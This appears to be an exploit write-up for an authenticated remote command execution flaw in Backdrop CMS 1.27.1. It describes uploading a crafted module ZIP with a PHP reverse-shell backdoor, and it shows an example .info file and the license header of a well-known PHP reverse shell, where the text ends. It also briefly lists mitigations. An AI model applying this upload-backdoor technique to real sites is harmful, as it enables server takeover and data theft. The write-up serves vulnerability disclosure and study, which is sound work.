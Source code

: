 `Backdrop CMS 1.27.1` has an **Authenticated Remote Command Execution (RCE) vulnerability** in its module upload feature, allowing attackers to upload a malicious ZIP archive. The exploit involves creating `shell.zip` containing `shell.info` (a dummy module descriptor) and `shell.php` (a backdoor). Once uploaded and extracted, the attacker accesses `shell.php` to execute arbitrary system commands. This can lead to full server compromise, allowing privilege escalation or data exfiltration. Mitigation includes updating Backdrop CMS, restricting module uploads, and validating file contents.

### Manual Exploitation

Every `Backdrop` CMS modules requires a `.info` file which contains metadata of the module and the `.php` file which contains PHP code of the functionality.

Let's look into an example `.info` file.

<b>Example block.info</b>
```ini
type = module
name = Block
description = Controls the visual building blocks a page is constructed with. Blocks are boxes of content rendered into an area, or region, of a web page.
package = Layouts
tags[] = Blocks
tags[] = Site Architecture
version = BACKDROP_VERSION
backdrop = 1.x

configure = admin/structure/block
; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662
```

`Backdrop CMS v1.27.1` does not properly validate the file content of a module during installation. Due to this insufficient validation, I can inject a PHP reverse shell into a `.php` file within the module's functionality.

Here's the reverse PHP shell in the `.php` file.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
```